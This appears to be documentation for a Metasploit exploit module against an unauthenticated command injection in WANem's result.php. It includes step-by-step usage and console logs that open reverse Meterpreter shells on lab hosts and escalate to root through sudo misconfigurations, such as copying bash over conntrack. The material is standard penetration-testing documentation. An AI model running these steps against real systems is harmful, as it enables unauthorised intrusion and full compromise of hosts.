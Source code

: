 ## Description

  This module exploits a command injection vulnerability in the WANalyzer
  component of WAN Emulator (WANem) versions 2.0 to 3.0 Beta 2. The
  `result.php` script does not require authentication and calls `shell_exec()`
  with user supplied data from the `pc` parameter resulting in arbitrary
  command execution as the `www-data` user.


## Vulnerable Application

  [WANem](http://wanem.sourceforge.net/) is a Wide Area Network Emulator, meant to provide a real experience of a Wide Area Network/Internet, during application development / testing over a LAN environment.

  This module has been tested successfully on WANem versions 2.0, 2.3 and 3.0 Beta 2.

  ISOs are available here:

  * https://sourceforge.net/projects/wanem/files/WANem/


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/linux/http/wanem_exec`
  3. Do: `set RHOST [IP]`
  4. Do: `set LHOST [IP]`
  5. Do: `set TARGET [TARGET]`
  6. Do: `run`
  7. You should get a session


## Scenarios

### WANem 2.0
  
  ```
  msf5 > use exploit/linux/http/wanem_exec 
  msf5 exploit(linux/http/wanem_exec) > set rhost 172.16.191.180
  rhost => 172.16.191.180
  msf5 exploit(linux/http/wanem_exec) > set target 0
  target => 0
  msf5 exploit(linux/http/wanem_exec) > check
  [*] 172.16.191.180:80 The target service is running, but could not be validated.
  msf5 exploit(linux/http/wanem_exec) > run
  [*] Exploit running as background job 0.
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Sending stage (857352 bytes) to 172.16.191.180
  msf5 exploit(linux/http/wanem_exec) > [*] Meterpreter session 1 opened (172.16.191.188:4444 -> 172.16.191.180:40592) at 2018-03-11 08:21:35 -0400
  
  msf5 exploit(linux/http/wanem_exec) > 
  [*] Command Stager progress - 100.00% done (1246/1246 bytes)
  
  msf5 exploit(linux/http/wanem_exec) > sessions -i 1
  [*] Starting interaction with 1...
  
  meterpreter > getuid
  Server username: uid=33, gid=33, euid=33, egid=33
  meterpreter > shell
  Process 11490 created.
  Channel 1 created.
  /home/perc/dosu /bin/sh
  id
  uid=0(root) gid=33(www-data) groups=33(www-data)
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > 
  ```
  
### WANem 2.3
  
  ```
  msf5 exploit(linux/http/wanem_exec) > set rhost 172.16.191.176
  rhost => 172.16.191.176
  msf5 exploit(linux/http/wanem_exec) > set target 0
  target => 0
  msf5 exploit(linux/http/wanem_exec) > check
  [*] 172.16.191.176:80 The target service is running, but could not be validated.
  msf5 exploit(linux/http/wanem_exec) > run
  [*] Exploit running as background job 1.
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Sending stage (857352 bytes) to 172.16.191.176
  msf5 exploit(linux/http/wanem_exec) > [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.176:39300) at 2018-03-11 08:24:07 -0400
  
  msf5 exploit(linux/http/wanem_exec) > 
  [*] Command Stager progress - 100.00% done (1246/1246 bytes)
  
  msf5 exploit(linux/http/wanem_exec) > sessions -i 2
  [*] Starting interaction with 2...
  
  meterpreter > getuid
  Server username: uid=33, gid=33, euid=33, egid=33
  meterpreter > shell
  Process 23385 created.
  Channel 1 created.
  sudo /bin/sh
  id
  uid=0(root) gid=0(root) groups=0(root)
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > 
  ```
  
  
### WANem 3.0 Beta 2
  
  ```
  msf5 exploit(linux/http/wanem_exec) > set rhost 172.16.191.177
  rhost => 172.16.191.177
  msf5 exploit(linux/http/wanem_exec) > set target 1
  target => 1
  msf5 exploit(linux/http/wanem_exec) > check
  [+] 172.16.191.177:80 The target is vulnerable.
  msf5 exploit(linux/http/wanem_exec) > run
  [*] Exploit running as background job 2.
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Sending stage (857352 bytes) to 172.16.191.177
  msf5 exploit(linux/http/wanem_exec) > [*] Meterpreter session 3 opened (172.16.191.188:4444 -> 172.16.191.177:51022) at 2018-03-11 08:25:31 -0400
  
  msf5 exploit(linux/http/wanem_exec) > 
  [*] Command Stager progress - 100.00% done (1246/1246 bytes)
  
  msf5 exploit(linux/http/wanem_exec) > sessions -i 3
  [*] Starting interaction with 3...
  
  meterpreter > getuid
  Server username: uid=33, gid=33, euid=33, egid=33
  meterpreter > shell
  Process 9643 created.
  Channel 1 created.
  cp /bin/bash /tmp/bash
  sudo /bin/mv /tmp/bash /usr/sbin/conntrack
  sudo /usr/sbin/conntrack
  id
  uid=0(root) gid=0(root) groups=0(root)
  ^C
  Terminate channel 1? [y/N]  y
  ```

